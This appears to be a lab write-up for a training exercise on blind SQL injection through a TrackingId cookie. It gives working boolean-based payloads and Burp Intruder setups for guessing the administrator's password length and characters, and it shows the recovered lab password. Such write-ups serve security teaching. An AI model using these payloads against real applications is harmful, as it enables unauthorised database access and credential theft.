# Lab: Blind SQL injection with conditional responses
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

## Blind SQL injection
We don't have the typical possibility to inject statement like before. The websites uses a cookie `TrackingId` to show the "Welcome back" message at the top of the page:


From the description we know that this cookie is vulnerable to SQL injection. To make a use of this, we can inject statements in the value of the cookie, that create a conditional return value. If the value is true, the message will be shown. If it's false, it won't.

For example the following value will cause that the message isn't shown anymore:
```
TrackingId=281bcO9BAGKvZXDq' and '1'='2
```

While the following meets the condition again and the message is shown:
```
TrackingId=281bcO9BAGKvZXDq' and '1'='1
```

The serverside created SQL statement will look like this:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '281bcO9BAGKvZXDq' and '1'='2'
```

## Solution
The goal in this lab is to abuse the noted vulnerability to create a conditional statement and "guess" the administrator password over that way. If our guess is true, the "Welcome back" message is shown. If not, it's not shown.

### Information gathering
From the lab description we know that there is a table called 'Users' with an user called 'Administrator'. But if we don't have this information we can examine the database with the following statements. If the statements are true, the welcome message is shown.

Determine if there is a table called 'Users':
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT 'a' FROM users LIMIT 1)='a
```

Check if there is a user called 'Administrator':
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

Guess the password length by increasing the number behind the '>':
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```
This can be done either by manually changing the number or using Burp Intruder to automate things up. The Intruder can be configured like the following:
| Positions | Payloads | Settings | Results |
| --------- | -------- | -------- | ------- |
|  |  |  |  |

In the results we see that the response for `LENGTH(password)>20)='a` won't give the welcome message. So our password is 20 characters long.

### Payload (Sniper)
Using the same approach, we can test the password character wise for matching to specific characters. From the description we know that only lowercase and alphanumeric are used. Because Burp CE has no predefined lists for Intruder, you can either create a list with the character sets and imported it or use the _Brute Forcer_ payload type. The statement we will use looks like the following:
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§
```

The corresponding SQL statement will look like this:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '281bcO9BAGKvZXDq' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a'
```

Intruder will iterate the character through the given list. If there is a match, we will check the next char by adjusting the payload:
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§
```

The configuration of Intruder looks like the following:
| Positions | Payloads | Results |
| --------- | -------- | ------- |
|  |  |  |

We will find the password of the administrator: `6718hmev95qbvnbglc8o`

Logging in with those credentials solves this lab.


### Payload (Cluster Bomb)
With Burp Intruder we can automate the previous step further. With the attack type _Cluster Bomb_ we can save us the part of adjusting the statement manually.

To do so we set the type to _Cluster Bomb_ and use the following statement:
```
TrackingId=281bcO9BAGKvZXDq' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§
```

For the first sector we use the payload type _Numbers_ and for the second the type _Brute Forcer_:
| Positions | Payload Numbers | Payload Brute Forcer | Results |
| --------- | --------------- | -------------------- | ------- |
|  |  |  |  |

This setup will test for every position of the password every character from the set. Sorting or filtering the results will show us the correct character for each position.

_Keep in mind that with Burp CE the Cluster Bomb attack will take a lot more time than it would in the Premium Edition._
